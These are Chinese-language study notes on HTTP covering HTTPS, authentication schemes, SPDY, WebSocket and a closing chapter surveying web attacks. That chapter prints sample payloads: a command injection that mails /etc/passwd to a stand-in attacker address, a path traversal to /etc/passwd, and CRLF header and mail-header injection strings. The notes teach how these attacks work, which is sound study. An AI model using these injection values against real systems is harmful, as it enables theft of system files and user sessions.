- **HTTPS 采用共享密钥加密和公开密钥加密两者并用的混合加密机制。**在交换密钥环节使用公开密钥加密方式，之后的建立通信交换报文阶段则使用共享密钥加密方式。

  

- **为了解决公开密钥本身是否正确（是否是从预想的服务器发出的，有没有被篡改等等）的问题，可以使用由数字证书认证机构（CA，CertificateAuthority）和其相关机关颁发的公开密钥证书。**

  认证机构的公开密钥的传送其实也涉及到安全问题，因此，多数浏览器开发商发布版本时，会事先在内部植入常用认证机关的公开密钥。

  
  - 可证明组织真实性的 EV SSL 证书：服务器端的证书。
  - 用以确认客户端的客户端证书：收费，客户端自行安装。
  - 由自认证机构颁发的证书称为自签名证书：使用openssl，自己给自己颁发服务器证书，不被承认。

- HTTPS 的安全通信机制

  

  步骤 1：客户端通过发送 Client Hello 报文**开始 SSL 通信**。报文中包含客户端支持的 SSL 的指定版本、加密组件（Cipher Suite）列表（所使用的加密算法及密钥长度等）。
  步骤 2：服务器可进行 SSL 通信时，会以 Server Hello 报文作为应答。和客户端一样，在报文中包含 SSL 版本以及加密组件。服务器的加密组件内容是从接收到的客户端加密组件内筛选出来的（共享密钥）。

  步骤 3：之后服务器发送 Certificate 报文。报文中包含**公开密钥证书**。
  步骤 4：最后服务器发送 Server Hello Done 报文通知客户端，最初阶段的 SSL 握手协商部分结束。
  步骤 5：SSL 第一次握手结束之后，客户端以 Client Key Exchange 报文作为回应。报文中包含通信加密中使用的一种被称为 Pre-master secret 的随机密码串。该报文已用步骤 3 中的公开密钥进行加密。
  步骤 6：接着客户端继续发送 Change Cipher Spec 报文。该报文会提示服务器，在此报文之后的通信会采用 Pre-master secret 密钥加密（共享密钥）。
  步骤 7：客户端发送 Finished 报文。该报文包含连接至今全部报文的整体校验值。这次握手协商是否能够成功，要以服务器是否能够正确解密该报文作为判定标准。
  步骤 8：服务器同样发送 Change Cipher Spec 报文。
  步骤 9：服务器同样发送 Finished 报文。
  步骤 10：服务器和客户端的 Finished 报文交换完毕之后，SSL 连接就算建立完成。当然，通信会受到 SSL 的保护。从此处**开始进行应用层协议的通信，即发送 HTTP 请求**。
  步骤 11：应用层协议通信，即发送 HTTP 响应。
  步骤 12： 最后由客户端断开连接。断开连接时，发送 close_notify 报文。上图做了一些省略，这步之后再发送 TCP FIN 报文来关闭与 TCP的通信。

  **应用层发送数据时会附加一种叫做 MAC（Message Authentication Code）的报文摘要。MAC 能够查知报文是否遭到篡改，从而保护报文的完整性。**

### 第八章 确认访问用户身份的认证

#### 8.1 HTTP/1.1 的认证方式

- BASIC 认证（基本认证）
- DIGEST 认证（摘要认证）
- SSL 客户端认证
- FormBase 认证（基于表单认证，但并非HTTP协议规定）

#### 8.2 BASIC 认证

BASIC 认证（基本认证）是从 HTTP/1.0 就定义的认证方式。


步骤 1： 当请求的资源需要 BASIC 认证时，服务器会随状态码 401Authorization Required，返回带 WWW-Authenticate 首部字段的响应。该字段内包含认证的方式（BASIC） 及 Request-URI 安全域字符串（realm）。

步骤 2： 接收到状态码 401 的客户端为了通过 BASIC 认证，需要将用户 ID 及密码发送给服务器。发送的字符串内容是由用户 ID 和密码构成，两者中间以冒号（:）连接后，再经过 Base64 编码处理。

步骤 3： 接收到包含首部字段 Authorization 请求的服务器，会对认证信息的正确性进行验证。如验证通过，则返回一条包含 Request-URI资源的响应。

缺点：BASIC 认证使用的Base64编码并非加密处理，如果使用HTTP，相当于明文在通信线路上传输，安全性低。另外，想再进行一次 BASIC 认证时，一般的浏览器却无法实现认证注销操作，不够便捷灵活。

#### 8.3 DIGEST 认证

从 HTTP/1.1 起，同样使用质询 / 响应的方式（challenge/response），但不会像 BASIC 认证那样直接发送明文密码。


步骤 1： 请求需认证的资源时，服务器会随着状态码 401 Authorization Required，返回带 WWW-Authenticate 首部字段的响应。该字段内包含质询响应方式认证所需的临时质询码（随机数，nonce）。

首部字段 WWW-Authenticate 内必须包含 realm 和 nonce 这两个字段的信息。

步骤 2： 接收到 401 状态码的客户端，返回的响应中包含 DIGEST 认证必须的首部字段 Authorization 信息。

首部字段 Authorization 内必须包含 username、realm、nonce、uri 和 response 的字段信息。

步骤 3： 接收到包含首部字段 Authorization 请求的服务器，会确认认证信息的正确性。认证通过后则返回包含 Request-URI 资源的响应。并且这时会在首部字段 Authentication-Info 写入一些认证成功的相关信息。

DIGEST 认证提供防止密码被窃听的保护机制，但并不存在防止用户伪装的保护机制（伪装者知道username和password后应该也能根据nonce计算出response，通过认证）。

#### 8.4 SSL 客户端认证

SSL 客户端认证是借由 HTTPS 的客户端证书完成认证的方式。可以避免由于id和密码泄露导致伪装者通过BASIC或DIGEST认证的情况（因为证书和设备相关，总不能id和密码泄露，然后客户端也丢了吧）。

步骤 1： 接收到需要认证资源的请求，服务器会发送 Certificate Request 报文，要求客户端提供客户端证书。

步骤 2： 用户选择要发送的客户端证书后，客户端会把客户端证书信息以 Client Certificate 报文方式发送给服务器。

步骤 3： 服务器验证客户端证书，验证通过后方可领取证书内客户端的公开密钥，然后开始 HTTPS 加密通信。

SSL 客户端认证采用双因素认证：在多数情况下，SSL 客户端认证不会仅依靠证书完成认证，一般会和基于表单认证组合形成一种双因素认证（Two-factor authentication）来使用。第一个认证因素的 SSL 客户端证书用来认证客户端计算机，另一个认证因素的密码则用来确定这是用户本人的行为。

#### 8.5 基于表单认证

并非HTTP协议规定，绝大多数需要用户登录的 Web 应用都会进行登录认证。

由于使用上的便利性及安全性问题，HTTP 协议标准提供的 BASIC 认证和 DIGEST 认证几乎不怎么使用。另外，SSL 客户端认证虽然具有高度的安全等级，但因为导入及维持费用等问题，还尚未普及。

- 怎么保存登陆状态

  由于HTTP 是无状态协议，之前已认证成功的用户状态无法通过协议层面保存下来。因此为了实现状态管理，一般会使用 Cookie 来管理 Session（会话）。

  

  步骤 1： 客户端把用户 ID 和密码等登录信息放入报文的实体部分（请求体），通常是以 POST 方法把请求发送给服务器。

  步骤 2： 服务器会发放用以识别用户的 Session ID。通过对客户端发送过来的登录信息进行身份认证，然后把用户的认证状态与Session ID 绑定后记录在服务器端。

  为了防止 Session ID 被第三方盗走，Session ID 通常会使用难以推测的字符串，且服务器端也需要进行有效期的管理，保证其安全性。

  步骤 3： 客户端接收到从服务器端发来的 Session ID 后，会将其作为Cookie 保存在本地。下次向服务器发送请求时，浏览器会自动发送Cookie，所以 Session ID 也随之发送到服务器。服务器端可通过验证接收到的 Session ID 识别用户和其认证状态。

### 第九章　基于 HTTP 的功能追加协议

#### 9.2 消除 HTTP 瓶颈的 SPDY

取自 SPeeDY，发音同 speedy，其开发目标旨在解决 HTTP 的性能瓶颈，缩短 Web 页面的加载时间（50%）。

- HTTP 的瓶颈

  - 一条连接上只可发送一个请求（HTTP/1.0的限制，或者可能是指一条TCP连接上只能有一个客户端和服务端通信）。
  - 请求只能从客户端开始。客户端不可以接收除响应以外的指令。
  - 请求 / 响应首部未经压缩就发送。首部信息越多延迟越大。
  - 发送冗长的首部。每次互相发送相同的首部造成的浪费较多。
  - 可任意选择数据压缩格式。非强制压缩发送。

  Ajax 的解决方法：Ajax（Asynchronous JavaScript and XML， 异 步 JavaScript 与 XML 技
  术）是一种有效利用 JavaScript 和 DOM（Document Object Model，文档对象模型）的操作，以达到局部 Web 页面替换加载的异步通信手段。

  而利用 Ajax 实时地从服务器获取内容，有可能会导致大量请求产生。另外，Ajax 仍未解决 HTTP 协议本身存在的问题。

  Comet 的解决方法：这是一种通过延迟应答，模拟实现服务器端向客户端推送（Server Push）的功能。Comet 会先将响应置于挂起状态，当服务器端有内容更新时，再返回该响应。

  为了保留响应，一次连接的持续时间也变长了，为了维持连接会消耗更多的资源。另外，Comet 也仍未解决 HTTP 协议本身存在的问题。

- SPDY 的设计与功能

  SPDY 没有完全改写 HTTP 协议，而是在 TCP/IP 的应用层与传输层之间通过新加会话层的形式运作。

  

  使用 SPDY 后，HTTP 协议额外获得以下功能：

  - 多路复用流：通过单一的 TCP 连接，可以无限制处理多个 HTTP 请求。所有请求的处理都在一条 TCP 连接上完成，因此 TCP 的处理效率得到提高。
  - 赋予请求优先级：SPDY 不仅可以无限制地并发处理请求（因为要做到多路复用。但这样会造成请求堆积，因此需要优先级），还可以给请求逐个分配优先级顺序。这样主要是为了在发送多个请求时，解决因带宽低而导致响应变慢的问题。
  - 压缩 HTTP 首部：压缩 HTTP 请求和响应的首部。这样一来，通信产生的数据包数量和发送的字节数就更少了。
  - 推送功能：支持服务器主动向客户端推送数据的功能。这样，服务器可直接发送数据，而不必等待客户端的请求。
  - 服务器提示功能：服务器可以主动提示客户端请求所需的资源。由于在客户端发现资源之前就可以获知资源的存在，因此在资源已缓存等情况下，可以避免发送不必要的请求（可能是指打开推送后服务器直接把资源发送到客户端然后再提示，也可能是指服务器先把资源发送到各中间代理，这样也可以节省多余的请求）。

#### 9.3 使用浏览器进行全双工通信的WebSocket

WebSocket 网络技术是为解决HTTP瓶颈问题而实现的一套新协议及 API。

- WebSocket 协议：一旦 Web 服务器与客户端之间建立起 WebSocket 协议的通信连接，之后所有的通信都依靠这个专用协议进行，不论服务器还是客户端，任意一方都可直接向对方发送报文（全双工）。

  - 推送功能：支持由服务器向客户端推送数据的推送功能。这样，服务器可直接发送数据，而不必等待客户端的请求。
  - 减少通信量：只要建立起 WebSocket 连接，就希望一直保持连接状态。WebSocket 的首部信息也变小了。

  为了实现 WebSocket 通信，在 HTTP 连接建立之后，需要完成一次“握手”（Handshaking）的步骤。

  - 握手·请求

    

    Upgrade 首部字段，告知服务器通信协议发生改变，以达到握手的目的。

    Sec-WebSocket-Key 字段内记录着握手过程中必不可少的键值。

    Sec-WebSocket-Protocol 字段内记录使用的子协议。

  - 握手·响应

    

    返回状态码 101 Switching Protocols 的响应。

    Sec-WebSocket-Accept 的字段值是由握手请求中的 Sec-WebSocket-Key 的字段值生成的。
    成功握手确立 WebSocket 连接之后，通信时不再使用 HTTP 的数据帧，而采用 WebSocket 独立的数据帧。

#### 9.4 期盼已久的 HTTP/2.0

基本上都会先通过 HTTP/1.1 与 TCP 连接，用功能追加协议完成新的功能/优化。

- SPDY
- HTTP Speed ＋ Mobility：用于改善并提高移动端通信时的通信速度和性能的标准。
- Network-Friendly HTTP Upgrade：在移动端通信时改善 HTTP 性能的标准。


#### 9.5 Web 服务器管理文件的 WebDAV

WebDAV（Web-based Distributed Authoring and Versioning，基于万维网的分布式创作和版本控制）是一个可对 Web 服务器上的内容直接进行文件复制、编辑等操作的分布式文件系统。出于安全性及便捷性等考虑，一般不使用HTTP/1.1 的 PUT 方法和 DELETE 方法。

- 针对服务器上的资源，WebDAV 新增加了一些概念，如集合、资源、属性、锁。

- 新增了方法和状态码，如COPY、MOVE、LOCK等。

### 第十章 构建 Web 内容的技术

#### 10.1 HTML

HTML（HyperText Markup Language，超文本标记语言）是为了发送Web 上的超文本（Hypertext）而开发的标记语言。

CSS（Cascading Style Sheets，层叠样式表）可以指定如何展现 HTML内的各种元素，属于样式表标准之一。

#### 10.2 动态 HTML

DOM 是用以操作 HTML 文档和 XML 文档的 API。

通过调用 JavaScript 等脚本语言对 DOM 的操作，可以实现对 HTML 的 Web 页面的动态改造。

#### 10.3 Web 应用（动态内容）

CGI（Common Gateway Interface，通用网关接口）是指 Web 服务器在接收到客户端发送过来的请求后转发给程序的一组机制。

Servlet 是用 Java语言实现的一个接口，能在服务器上创建动态内容。



#### 10.4 数据发布的格式及语言

XML（eXtensible Markup Language，可扩展标记语言）是一种可按应用目标进行扩展的通用标记语言。

RSS（简易信息聚合，也叫聚合内容）和 Atom 都是发布新闻或博客日志等更新信息文档的格式的总称。两者都用到了 XML。

JSON（JavaScript Object Notation）是一种以JavaScript（ECMAScript）的对象表示法为基础的轻量级数据标记语言。

### 第十一章 Web 的攻击技术

#### 11.1 针对 Web 的攻击技术

- 以服务器为目标的主动攻击

  主动攻击（active attack）是指攻击者通过直接访问 Web 应用，把攻击代码传入的攻击模式。

  具有代表性的攻击是 **SQL 注入攻击**和 **OS 命令注入攻击**。

- 以用户为目标的被动攻击

  被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻击模式（恶意链接）。

  具有代表性的攻击是**跨站脚本攻击**和**跨站点请求伪造**。

  当然被动攻击也可以以用户为跳板攻击服务器内部。

#### 11.2 因输出值转义不完全引发的安全漏洞

- 实施 Web 应用的安全对策可大致分为以下两部分。
  - 客户端的验证：JavaScript 在客户端验证数据只是为了尽早地辨识输入错误，起到提高 UI
    体验的作用。因为在客户端允许篡改数据或关闭 JavaScript。
  - 服务器端的验证：
    - 输入值验证：检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策。
    - 输出值转义：当输出值转义不完全时，可能会触发攻击者传入的攻击代码。

- 跨站脚本攻击（Cross-Site Scripting，XSS）是指通过存在安全漏洞的Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。

  例如下面这样的恶意链接，网址的表单需要回写ID填在用户ID处，构造这样一个链接会被浏览器解析到HTML里形成一段脚本。用户填写的信息则会被窃取，并发送给攻击者。

  

  或者指定执行某个脚本，可以干更多事情，例如获取所有的cookie。

  

  

- SQL 注入攻击是指针对 Web 应用使用的数据库，通过运行非法的 SQL 而产生的攻击。可能会导致非法查看或篡改数据库内的数据、规避认证、执行和数据库服务器业务关联的程序等后果。

  例如在查询中填写类似“上野宣‘--”，如果该条件后面还有条件的话则会被注释掉。

  

- OS 命令注入攻击（OS Command Injection）是指通过 Web 应用，执行非法的操作系统命令达到攻击的目的。

  例如邮件发送的核心代码中有`open(MAIL, "| /usr/sbin/sendmail $adr");`，攻击者将`; cat /etc/passwd | mail hack@example.jp`指定为邮件地址（虽然现在的校验一定会检查出来），这样程序拼接的指令变为`| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp`。

- HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。可能会导致设置任何 Cookie 信息、重定向至任意 URL、显示任意的主体（HTTP 响应截断攻击）等后果。

  例如网页中通过一个查询参数重定向到指定页面`http://example.com/?cat=101`，攻击者直接请求`http://example.com/?cat=101%0D%0ASet-Cookie:+SID=123456789`，%0D%0A 代表 HTTP 报文中的换行符，于是将本次会话id改成指定的值，可以伪装用户。

- HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的。

- 邮件首部注入（Mail Header Injection）是指 Web 应用中的邮件发送功能，攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。

  如`bob@hackr.jp%0D%0ABcc: user@example.com`利用换行符追加发送，`bob@hackr.jp%0D%0A%0D%0ATest Message`利用两个换行符篡改邮件内容。

- 目录遍历（Directory Traversal）攻击是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。

  如`http://example.com/read.php?log=../../etc/passwd`，都是在请求参数上搞小动作。

- 远程文件包含漏洞（Remote File Inclusion）是指当部分脚本内容需要从其他文件读入时，攻击者利用指定外部服务器的 URL 充当依赖文件，让脚本读取之后，就可运行任意脚本的一种攻击。

  

#### 11.3 因设置或设计上的缺陷引发的安全漏洞

- 强制浏览（Forced Browsing）安全漏洞是指，从安置在 Web 服务器的公开目录下的文件中，直接通过 URL 浏览那些原本非自愿公开的文件。

- 不正确的错误消息处理（Error Handling Vulnerability）的安全漏洞是指，Web 应用的错误信息内包含对攻击者有用的信息。如Web 应用抛出的错误消息、数据库等系统抛出的错误消息。

- 开放重定向（Open Redirect）是一种对指定的任意 URL 作重定向跳转的功能。假如指定的重定向 URL
  到某个具有恶意的 Web 网站，那么用户就会被诱导至那个 Web 网站。

  如`http://example.com/?redirect=http://hackr.jp`。（会有人上当吗？）

#### 11.4 因会话管理疏忽引发的安全漏洞

- 会话劫持（Session Hijack）是指攻击者通过某种手段拿到了用户的会话 ID，并非法使用此会话 ID 伪装成用户，达到攻击的目的。

  - 通过非正规的生成方法推测会话 ID
  - 通过窃听或 XSS 攻击盗取会话 ID
  - 通过会话固定攻击（Session Fixation）强行获取会话 ID

- 会话固定攻击（Session Fixation）攻击会强制用户使用攻击者指定的会话 ID，属于被动攻击。

  

- 跨站点请求伪造（Cross-Site Request Forgeries，CSRF）攻击是指攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人行为或设定信息等某些状态更新，属于被动攻击。

  

#### 11.5 其他安全漏洞

- 密码破解攻击（Password Cracking）即算出密码，突破认证。

  - 通过网络进行密码试错：穷举法、字典攻击

  - 对已加密密码的破解：通过穷举法·字典攻击进行类推、彩虹表、拿到密钥、加密算法的漏洞

    

    https://freerainbowtables.com/

- 点击劫持（Clickjacking）是指利用透明的按钮或链接做成陷阱，覆盖在 Web 页面之上。然后诱使用户在不知情的情况下，点击那个链接访问内容的一种攻击手段。这种行为又称为界面伪装（UI Redressing）。（各种广告的关闭按钮！）

- DoS 攻击（Denial of Service attack）是一种让运行中的服务呈停止状态的攻击。有时也叫做服务停止攻击或拒绝服务攻击。DoS 攻击的对象不仅限于 Web 网站，还包括网络设备及服务器等。

  - 集中利用访问请求造成资源过载，资源用尽的同时，实际上服务也就呈停止状态。

    多台计算机发起的 DoS 攻击称为 DDoS 攻击（Distributed Denial ofService attack）。DDoS 攻击通常利用那些感染病毒的计算机作为攻击者的攻击跳板。

  - 通过攻击安全漏洞使服务停止。

- 后门程序（Backdoor）是指开发设置的隐藏入口，可不按正常步骤使用受限功能。

  - 开发阶段作为 Debug 调用的后门程序
  - 开发者为了自身利益植入的后门程序
  - 攻击者通过某种方法设置的后门程序